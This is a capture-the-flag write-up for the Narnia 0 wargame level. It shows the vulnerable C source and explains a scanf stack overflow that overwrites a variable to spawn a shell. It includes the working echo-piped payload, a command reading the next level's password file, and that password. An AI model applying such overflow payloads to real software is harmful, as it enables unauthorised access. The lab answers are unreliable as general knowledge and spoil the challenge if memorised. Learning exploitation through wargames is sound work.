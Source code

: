 # Narnia 0

Password: `narnia0`

The C code is as follows (stripped license for brevity):

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

`Scanf` is not bounds checked, the two buffers `val` and `buf` are right next to each other. By crafting a string that overflows the bounds of `buf`, we can overwrite `val` - this can be simply tested by entering a string 24 characters long: the final four will replace the contents of Val (if you enter 23 characters, you will see the null byte 00, which terminates the string, overriding the first position of the val variable (as numbers on this architecture are rendered backwards)).

I ran into two problems at this point. First, copying and pasting non-printable or extended ASCII characters didn't work. deadbeef is the bytes 0xEF, 0xBE, 0xAD and 0xDE (remember its backwards), which corresponds to the hex values `▐¡╛∩`. But after trying to get those into the application, they always ended up mangled.

The solution was to use unix piping, never letting the characters be read or printed via the screen. I got a hint for this so can't take too much credit, particularly the use of `echo -e` to evaluate escape sequences: this command will feed the right data:

`echo -e "01234567890123456789\xef\xbe\xad\xde" | /narnia/narnia0`

However, the shell immediately closes; looking at the code it starts the shell system op, but then that op is immediately disposed when the program exits in the next instruciton.

The fix to get past this is to pass `cat` through in the pipe as well, keeping the shell open until cat exits. Why the following works and not a straight `cat` for the password, I don't know - the `cat` for the password seems to get executed afterwards and results in a permission denied message:

`{ echo -e "01234567890123456789\xef\xbe\xad\xde"; cat; } | /narnia/narnia0`

Once executing the above, even though no prompt is shown, you can `cat /etc/narnia_pass/narnia1` to get the password for narnia1, `efeidiedae`
